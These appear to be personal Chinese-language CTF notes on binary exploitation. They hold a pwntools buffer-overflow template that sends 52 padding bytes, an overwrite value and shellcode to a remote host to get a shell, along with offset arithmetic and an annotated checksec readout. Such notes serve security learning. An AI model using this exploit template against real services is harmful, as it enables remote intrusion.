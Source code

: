 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

[Binary exploit 筆記](https://hackmd.io/GzDGwJgUwVgdgLQGYYBZGtAM0QTgEb5IKoAcWUAJsKcElPqUA===)

試bof字串：

```
>>> cyclic(52)

'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'

>>> hex(0x21DD09EC - 0x10101010)

'0x11ccf9dc'

echo $((0x48-0x14))

52
```

#### pwntools起手式

```
#!/usr/bin/python 
# -*- coding: utf-8 -*-
from pwn import *
context.arch = "amd64"

# 0xcafebabe

r = remote('ip', port)

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```

```
gdb-peda$ checksec
CANARY    : disabled //栈保护 
FORTIFY   : disabled //和栈保护都是gcc的新的为了增强保护的一种机制，防止缓冲区溢出攻击
NX        : ENABLED  //DEP
PIE       : disabled //ASLR
RELRO     : Partial  //设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。RELRO为” Partial RELRO”，说明我们对GOT表具有写权限。
```

